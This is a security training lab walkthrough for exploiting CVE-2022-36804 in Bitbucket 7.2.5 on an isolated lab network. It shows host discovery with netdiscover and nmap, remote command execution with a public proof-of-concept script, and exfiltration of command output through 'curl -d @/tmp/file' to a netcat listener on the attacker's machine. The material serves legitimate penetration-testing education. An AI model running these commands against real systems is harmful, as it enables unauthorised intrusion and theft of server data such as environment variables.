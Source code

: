 ###### Lab Instructions

Log on to the Attacker host with the following credentials:

- User: kali
- Password: kali

![CVE Bitbucket Image 1.2.1.png](https://images.ctfassets.net/kvf8rpi09wgk/1W8DAo0REz0HsWdJmrcoQQ/b9206393816b68694d0fd1c13e93fff4/kali_bitbucket.png)

Knowing you have to scan for internal network hosts, you will use the [Netdiscover tool](https://www.kali.org/tools/netdiscover/). Netdiscover will actively send Address Resolution Protocol (ARP) requests on the network to discover online hosts. First, we must locate our own IP address and the size of the network we are on.

Open a terminal window by right-clicking on the Kali Desktop and clicking “Open Terminal Here”. Type ip a to locate your IP address:

![CVE Bitbucket Image 1.2.2.png](https://images.ctfassets.net/kvf8rpi09wgk/Qt3KoZUvxzw3llRkFmWC8/b792e83608d70a862fa9785f9cf19329/Locate_IP_Address.png)

Note that on interface eth0 your IP address is 192.168.1.50 with a CIDR of /24. This CIDR block means there are 254 assignable hosts on the network. This becomes important when using Netdiscover to narrow down which hosts are actually on the network.

In your terminal window, type:

```
sudo netdiscover -r 192.168.1.1/24
```

You will be prompted to enter your password of kali to run the scan. The scan should not take a long time, and you discover that host 192.168.1.100 is online:

![CVE Bitbucket Image 1.2.3.png](https://images.ctfassets.net/kvf8rpi09wgk/7qHzKjaT1gP1CfXJThaNX6/1b071f5f724f99f869918b1e48030342/Host_Discovery.png)

Press CTRL+C to exit out of the Netdiscover window.

You will now use Nmap to scan host 192.168.1.100. As this is the only host you discovered, you will scan all ports on the host to determine if any are open. Type nmap 192.168.1.100 -sV -p- -vvv and run your scan.

- -sV scans for service version
- -p- scans ports 1-65535
- -vvv prints very, very, very verbosely.

![CVE Bitbucket Image 1.2.4.png](https://images.ctfassets.net/kvf8rpi09wgk/6tUwpEDAuyIcaQMUIvf22X/e29676168cd93561751e3f0680d7b157/Nmap_scan.png)

Nmap will report that both ports 7990 and 7999 are open and unrecognized. Reading through the service fingerprint for port 7990, we can locate a URL:

![CVE Bitbucket Image 1.2.5.png](https://images.ctfassets.net/kvf8rpi09wgk/1OmUwOxV2jIVZDk8RfCmBT/69c0e7ca87e175eab33ca8ef565a94c7/localhost.png)

It appears port 7990 might be running a web server. Open a web browser and go to http://192.168.1.100:7990

![CVE Bitbucket Image 1.2.6..png](https://images.ctfassets.net/kvf8rpi09wgk/hNHTYnYHK7UOZR5JB2lGn/ba1568d077ff0e893b72288c87ba969a/Public_repositories.png)

Observe the server is running BitBucket version 7.2.5, meaning that it’s vulnerable to CVE-2022-36804! As you learned in the first lesson, in order to perform the RCE, you must find a public repo. Luckily, it appears the hello-world repo under the CFX project is public:

![CVE Bitbucket Image 1.2.7.png](https://images.ctfassets.net/kvf8rpi09wgk/64NwF2t3earUIkV4eFiONh/346715eb1a36dd78fae0fa8d5b0645d8/hello_world.png)

On your desktop, you have an exploit script written by BenHays142 for CVE-2022-36804. In the terminal, type:

```
cd ~/Desktop/CVE-2022-36804-PoC-Exploit
```

Note that tab completion is your friend here, so you don’t have to type the full directory name.

It is always important to read the exploit code you use to know what it is doing and ensure that it does not contain any destructive code. Type mousepad main.py to open the exploit code in Mousepad and read through the code. Note that the code checks for open repos in the /rest/api/latest/repos endpoint (line 16), which was mentioned in our first lesson. Also note line 35, where the command you choose is sent to the server.

![CVE Bitbucket Image 1.2.8.png](https://images.ctfassets.net/kvf8rpi09wgk/6nyYkPfUl5vVGQnsOjr0ZX/9453c87e94fe3f724b87f7110efda2a1/Mousepad.png)

After reading through the code, close out of Mousepad.

In your terminal, type python3 main.py -h and observe the command options.

![CVE Bitbucket Image 1.2.9.png](https://images.ctfassets.net/kvf8rpi09wgk/6iAphxUDAOQCggOPOagXPl/22efcd26067ae900c1e4b712208bdb86/exploit_bitbucket.png)

Although you know the repo is hello-world and the project is CFX, the script can automatically detect this. To verify the script detects the correct repo and project, enter the following command:

```
python3 main.py 192.168.1.100:7990
```

![CVE Bitbucket Image 1.2.10.png](https://images.ctfassets.net/kvf8rpi09wgk/7rvMgHEYDj2rN3zhGLUCnp/11438401c5b7bdee27f0b7820ce1a789/repo_script.png)

The script found the repo and project and also determined that the site is vulnerable to CVE-2022-36804. You can now add the --command flag to execute a command to perform RCE. You will use the id command to determine what user the server is running as. Enter the following command:

```
python3 main.py 192.168.1.100:7990 --command id
```

![CVE Bitbucket Image 1.2.11.png](https://images.ctfassets.net/kvf8rpi09wgk/6CqDoDcLqwfUplemZt5LQk/ecb50d870e0fd930a15254851eeb398a/commandid.png)

You observe the server is running as the bitbucket user, but it appears that you do not see the whole output of the command. In some cases as a pentester, you may be unable to see the full output from your commands (usually called a “blind” injection). Sometimes you also cannot obtain a full shell on a remote server. In these cases, you must think outside the box!

Open a new terminal window and use the netcat utility to create a listener on your kali box:

```
nc -nlvp 4444
```

Back in your other terminal window, you will execute the exploit script, but write the output of your command to a file in the vulnerable server’s temp directory:

```
python3 main.py 192.168.1.100:7990 --command “id > /tmp/file”
```

Note: The tmp directory is typically writable by all users, making it a great place to store files as a pentester.

![CVE Bitbucket Image 1.2.12.png](https://images.ctfassets.net/kvf8rpi09wgk/6GKUj1R3BVIcymlyapccuQ/08bd5b14e663f7dcfa1154c5ccb03a82/tmpfile.png)

In this case, you are redirecting the output of the id command to a file named “file” in the /tmp directory.

Retrieve the file by using the cURL command to send the output of the file back to our Kali box in the netcat listener that you set up previously:

```
python3 main.py 192.168.1.100:7990 --command “curl -d @/tmp/file 192.168.1.50:4444”
```

You should see the full output of your id command as a POST request in the netcat listener:

![CVE Bitbucket Image 1.2.13.png](https://images.ctfassets.net/kvf8rpi09wgk/3310ryxXpo901C6XRS8Bnz/c1eab4e2e9cb876090b2ba1a8201e18c/netcatlistener.png)

Enter CTRL+C in the netcat listener terminal to stop the connection.

You can use this same technique of redirecting the output of a command to a file and then using cURL to retrieve the output of the command in the netcat listener. The example below is redirecting the output of the env command. It then uses cURL to observe the full output of the command, seeing the environmental variables on the vulnerable server:

![CVE Bitbucket Image 1.2.14.png](https://images.ctfassets.net/kvf8rpi09wgk/73BdhWtjlyZy5lvmhKFj9A/41a63d7d0c0a46fb7e77c3c3fdd57deb/env.png)

Although this is not a true shell on the vulnerable server, it is another way to perform a remote code execution (RCE) attack and observe the output of the command using an out-of-band server.